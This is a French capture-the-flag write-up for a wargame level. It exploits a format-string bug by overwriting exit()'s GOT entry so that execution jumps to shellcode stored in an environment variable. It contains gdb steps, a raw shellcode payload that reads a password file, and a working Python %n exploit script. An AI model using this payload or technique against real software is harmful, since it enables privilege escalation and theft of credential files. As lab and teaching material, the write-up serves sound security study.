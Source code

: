 En examinant le binaire, nous pouvons voir qu'un appel a printf est effectue puis juste apres, un appel a exit.
Le printf ne prenant en parametre seulement notre entree (dans un buffer de 100 bytes) nous pouvons en deduire
qu'une faille format string est presente dans le programme. Pour en avoir le coeur net il suffit d'envoyer
"%x" au binaire, et de voir si une addresse de la stack s'affiche. C'est le cas. Notre programme est 
donc vulnerable aux formats strings.

Le flag du user 06 n'est pas present sur la stack (comme lors d'un precedent level), inutile donc de dumper la memoire.
Nous ne pouvons pas ecraser EIP, car un appel a exit() est fait juste apres notre appel a printf(). 

Un moyen efficace d'exploiter une format string suivie d'un appel a exit(), est d'ecraser l'adresse GOT (Global Offset
Table) de l'appel systeme exit() pour la remplacer par l'adresse d'un eventuel shellcode stocke sur la stack. (la stack
etant executable ici...)

Commencons par recuperer l'adresse nous permettant de reecrire sur la GOT :

	$ gdb level05
	$ disas main
	$ disas 0x8048370
	$ x 0x80497e0

Nous avons donc l'adresse necessaire: 0x80497e0

Maintenant nous allons stocke notre shellcode dans une variable d'environnement et recuperer son adresse (soit avec gdb soit avec getenv.c)

	export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")
	
Maintenant il va falloir reecrire l'adresse 0x80497e0 par celle de notre shellcode. Nous devons ecrire 2 bytes par 2 bytes plutot que les 4 bytes d'un coup. Cela prendra beaucoup moins de temps. 

Le plus propre est d'utiliser python pour creer son exploit, avec la librairie struct.

En testant des valeurs arbitraires (comme des 'AAAABBBBCCCC') on se rend compte que nos valeurs sont stocke a l0eme adresse de la stack

/Ressources/exp.py : 

	import struct

	EXIT_PLT = 0x80497e0
	SHELLCODE = 0xffffde31

	def pad(s):
		return s+"X"*(100-len(s))

	exploit = ""
	exploit += struct.pack("I", EXIT_PLT)		# 0x80497e0
	exploit += struct.pack("I", EXIT_PLT+2)		# 0x80497e2
	exploit += "%4$56935x"           		# 2 derniers byte de l'adresse de notre shellcode (en decimal) auquel on soustrait 17 (padding)
	exploit += "%10$n "*10
	exploit += "%8987006x"           		# bidouiller jusqu'a obtenir 0xffff
	exploit += "%11$n"*10

	print pad(exploit)

Pour verifier a quoi ressembler l'adresse que nous reecrivons entre chaque modification :

	$ python /tmp/exp.py > /tmp/pay
	$ gdb level05
	$ b*main+207
	$ r < /tmp/pay
	$ 0x80497e0

Nous arrivons donc a reecrire (2 bytes par 2 bytes) l'adresse de exit() sur la GOT. Le tour est joue.

	python /tmp/exp.py > /tmp/pay
	cat /tmp/pay - | ./level05
	

	$whoami
	=> level06

